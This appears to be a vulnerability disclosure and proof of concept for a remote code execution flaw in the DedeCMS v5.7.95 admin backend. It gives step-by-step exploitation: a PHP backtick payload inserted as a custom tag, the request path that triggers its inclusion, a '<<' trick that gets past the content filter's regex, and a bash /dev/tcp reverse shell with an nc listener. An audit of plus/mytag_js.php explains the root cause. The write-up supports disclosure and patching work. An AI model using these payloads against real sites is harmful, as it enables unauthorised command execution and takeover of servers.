 [toc]

# DedeCMS v5.7.95 RCE

Dedecms official website：https://www.dedecms.com/download。

## Vulnerability description

There is an arbitrary command execution vulnerability in the background of dedecms v5.7.95, which can write malicious code and cause rce vulnerability.



## Vulnerability impact

DedeCMS v5.7.95



## Recurrence process

First visit /dede to log in to the background.

Visit `dede/mytag_ main.php`, inserts a tag.

![image-20220621000017225](images/DedeCMS v5.7.95 RCE/image-20220621000017225.png)

The main contents are as follows:

```php
<<?=`ls`;?>
```

The backquote(\`) is actually the alias of the shell_exec function:

![image-20220620235742551](images/DedeCMS v5.7.95 RCE/image-20220620235742551.png)

Click "OK" to get the corresponding number, which is marked as 3 this time. Visit /plus/mytag_js.php?arcID=3&nocache=1, where `arcID=3` is the tag number. After that, the file a will be generated and directly included.

![image-20220621001339740](images/DedeCMS v5.7.95 RCE/image-20220621001339740.png)

Further use to reverse shell:

```php
<<?=`bash -i &>/dev/tcp/127.0.0.1/2333 <&1`;?>
```

![image-20220621001414973](images/DedeCMS v5.7.95 RCE/image-20220621001414973.png)

use ncat:

```bash
nc -lvvp 2333
```

Visit /plus/mytag_js.php?arcID=3&nocache=1 to reverse the shell successfully:

![image-20220621001633221](images/DedeCMS v5.7.95 RCE/image-20220621001633221.png)



## Code audit

Vulnerability location is in `plus/mytag_js.php`, you can see that the file contains directly after the file is written. In this case, we don't have to care about the file name. Here, the file name has a fixed htm suffix. We need to care about what the myvalues content is when the file is written.

![image-20220621001801902](images/DedeCMS v5.7.95 RCE/image-20220621001801902.png)

The value of myvalues is found through query. The query statements are:

```sql
SELECT * FROM `#@__mytag` WHERE aid='$aid' 
```

![image-20220621001953888](images/DedeCMS v5.7.95 RCE/image-20220621001953888.png)

You can search globally to get the information in mytag_add.php or mytag_edit.php. These two files involve the insertion or update of tables.

![image-20220621002146874](images/DedeCMS v5.7.95 RCE/image-20220621002146874.png)

So visit mytag_main.php, here are add and edit operations

![image-20220621002256500](images/DedeCMS v5.7.95 RCE/image-20220621002256500.png)

a lot of malicious functions are filtered in plus/mytag_js.php, but the backquotes(\`) are not filtered, and they cannot match `[^<]+<\?(php|=)`：

```php
// will be matched
abcde<?php `ls`;?>
<?=`ls`;?>

// will not be matched
<<?=`ls`?>
```

Use  `<<`  to bypass `[^<]+<\?(php|=)`, thus rce succeeds.

![image-20220621002749384](images/DedeCMS v5.7.95 RCE/image-20220621002749384.png)

See the "Recurrence process" above for specific operation and utilization.
